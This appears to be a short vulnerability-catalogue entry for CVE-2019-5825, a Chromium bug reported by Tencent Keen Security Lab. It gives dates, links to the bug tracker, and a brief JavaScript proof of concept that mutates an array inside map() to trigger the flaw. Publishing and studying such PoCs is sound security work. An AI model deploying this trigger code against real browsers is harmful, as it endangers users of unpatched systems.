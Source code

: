 # CVE-2019-5825
- Report: Mar 14, 2019
- Fix: Mar 18, 2019
- Credit: Tencent Keen Security Lab

## Poc
```js
var arr = [1]; 
for (var i = 1; i < 30; ++i) {  
    var a2 = arr.map(function(){arr.push(2);}); 
    arr.some(arr.constructor);  
    for (var j = 0; j < 10000; ++j) {} 
} 
```

## Reference
[Issues](https://bugs.chromium.org/p/chromium/issues/detail?id=941743)
[Exploit](https://bugs.chromium.org/p/chromium/issues/detail?id=941743)
